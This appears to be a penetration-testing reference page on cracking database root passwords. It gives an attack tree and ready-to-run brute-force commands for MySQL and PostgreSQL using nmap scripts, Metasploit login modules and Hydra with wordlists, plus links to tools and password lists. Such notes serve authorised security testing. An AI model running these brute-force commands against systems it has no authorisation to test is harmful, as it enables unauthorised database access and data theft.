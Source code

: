 # Cracking the database root password

## Attack tree

```text
1 Cracking the database root password
    1.1 Try logging in as root without password and with default passwords
    1.2 Try common passwords
    1.3 Use a brute forcing tool
        1.3.1 External - run a tool
        1.3.2 Internal (having an account on the server that hosts the database) - run a hash cracker like John the Ripper against the database’s password file. The location of the hash file is different depending on the database.
    1.4 If it is Open Source Software, check the source code on the repository host.
```

## Nmap

`nmap` uses default password and user lists, but do plug in other lists:

### MySQL
Reduce the pool of users for the brute-force attack by [user enumeration](../recon/databases.md).

```text
# nmap --script mysql-brute <target>
--script-args userdb=<path> - plug in list of logins
--script-args passdb=<path> - plug in list of passwords
```

### PostgreSQL
```text
# nmap -p 5432 --script pgsql-brute <target>
```

## Metasploit

### MySQL
```text
msf > use auxiliary/scanner/mysql/mysql_login
msf auxiliary(mysql_login) > set USER_FILE /root/login/logins
msf auxiliary(mysql_login) > set PASS_FILE /root/login/password
msf auxiliary(mysql_login) > set RHOSTS <target>
msf auxiliary(mysql_login) > exploit
```

### PostgreSQL
```text
msf > use auxiliary/scanner/postgres/postgres_login
msf auxiliary(postgres_login) > set BLANK_PASSWORDS True
msf auxiliary(postgres_login) > set STOP_ON_SUCCESS True
msf auxiliary(postgres_login) > set threads 100
msf auxiliary(postgres_login) > set RHOSTS <target>
msf auxiliary(postgres_login) > run
```

## Hydra

### PostgreSQL

```text
# hydra -L /path/to/user.txt -P /path/to/pass.txt <target> postgres
# hydra -L /usr/share/metasploit-framework/data/wordlists/postgres_default_user.txt -P /usr/share/metasploit-framework/data/wordlists/postgres_default_pass.txt <target> postgres
-L: path for username list
-P: path for the password list
```

## Tools

* [Metasploit framework](https://www.kali.org/tools/metasploit-framework/)
* [Hydra](https://www.kali.org/tools/hydra/)
* [Medusa](https://www.kali.org/tools/medusa/)
* [Patator](https://www.kali.org/tools/patator/)
* [Ncrack](https://www.kali.org/tools/ncrack/)

## Resources

* [Collected common password lists](https://github.com/danielmiessler/SecLists/tree/master/Passwords)
* [SecLists](https://github.com/danielmiessler/SecLists)
* [Script pgsql-brute](https://nmap.org/nsedoc/scripts/pgsql-brute.html)
* [Script mysql-brute](https://nmap.org/nsedoc/scripts/mysql-brute.html)

